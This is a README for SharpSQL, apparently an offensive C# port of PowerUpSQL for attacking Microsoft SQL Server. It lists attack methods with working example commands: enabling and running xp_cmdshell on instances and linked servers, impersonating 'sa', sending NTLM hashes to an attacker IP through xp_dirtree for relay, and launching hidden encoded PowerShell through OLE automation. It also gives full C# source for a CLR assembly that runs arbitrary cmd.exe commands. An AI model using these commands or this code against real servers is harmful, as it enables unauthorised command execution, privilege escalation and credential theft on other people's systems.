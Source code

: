# SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.

<br>

## Usage
```
SharpSQL by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to taget
    -db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - The user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd, Invoke-LinkedOSCmd, Invoke-ExternalScript, and Invoke-OLEObject)
    -Query                     - The raw SQL query to execute
    -help                      - Show help

Methods:
    Get-SQLInstanceDomain      - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Get-Databases              - Get available databases
    Get-DBUser                 - Get database user via USER_NAME
    Get-GroupMembership        - Get group member for current user ('guest' or 'sysadmin')
    Get-Hash                   - Get hash via xp_dirtree, works nicely with impacket-ntlmrelayx
    Get-ImpersonableUsers      - Get impersonable users
    Get-LinkedServers          - Get linked SQL servers
    Get-LinkedPrivs            - Get current user privs for linked server
    Get-Sysadmins              - Get sysadmin users
    Get-SystemUser             - Get system user via SYSTEM_USER
    Get-SQLQuery               - Execute raw SQL query
    Get-Triggers               - Get SQL server triggers
    Get-Users                  - Get users from syslogins
    Get-UserPrivs              - Get current user server privileges
    Check-Cmdshell             - Check whether xp_cmdshell is enabled on instance
    Check-LinkedCmdshell       - Check whether xp_cmdshell is enabled on linked server
    Clear-CLRAsm               - Drop procedure and assembly (run before Invoke-CLRAsm if previous error)
    Enable-Cmdshell            - Enable xp_cmdshell on instance
    Enable-LinkedCmdshell      - Enable xp_cmdshell on linked server
    Invoke-OSCmd               - Invoke xp_cmdshell on instance
    Invoke-LinkedOSCmd         - Invoke xp_cmdshell on linked server
    Invoke-ExternalScript      - Invoke external python script command execution
    Invoke-OLEObject           - Invoke OLE wscript command execution
    Invoke-CLRAsm              - Invoke CLR assembly procedure command execution
    Invoke-UserImpersonation   - Impersonate user and execute query
    Invoke-DBOImpersonation    - Impersonate dbo on msdb and execute query

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
    SharpSQL.exe Invoke-CLRAsm -Instance sql.server -Command "whoami && ipconfig"
```

<br>

## Demos and Examples
### Get-GroupMembership
![image](https://user-images.githubusercontent.com/47215311/153180706-78e2a53c-79fb-4db0-ba03-cda16d476966.png)

### Get-SQLquery
![image](https://user-images.githubusercontent.com/47215311/153181678-6d61bb45-ff9b-4451-93ff-9497ab875bc5.png)

### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153182593-e40747ff-b9f1-4ed4-a634-556f37e617ea.png)

### OLE Object via Impersonation
```
.\SharpSQL.exe invoke-userimpersonation -instance dc01 -user sa -Query "EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'powershell -exec bypass -nop -w hidden -enc blahblah';"
```

### Impersonation and xp_cmdshell
```
.\SharpSQL.exe invoke-userimpersonation -instance dc01 -user sa -Query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"

.\SharpSQL.exe invoke-userimpersonation -instance dc01 -user sa -Query "EXEC xp_cmdshell 'whoami'"
```

### Command execution via CLR Assembly 
```
.\SharpSQL.exe Invoke-clrasm -instance sql01 -command "cd && ipconfig"
[*] Authenticated to: sql01
[*] Invoke-CLRAsm:
C:\Windows\system32

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.168.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.168.254
```
The following template is currently used for the custom CLR assembly:
```c#
using System;
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

public class ClassLibrary1
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmdExec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
}
```
The method automatically deletes the created procedure and assembly after each invocation. However, if an error occurs you may have to clear this before the next call by using `Clear-CLRAsm`.



<br>



## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Add-User`
    - `Add-LinkedUser`
    - `Enable-RPC` - on instance and linkedinstance, allows for EXEC... AT...
    - double link crawl functionality, raw queries should work as is
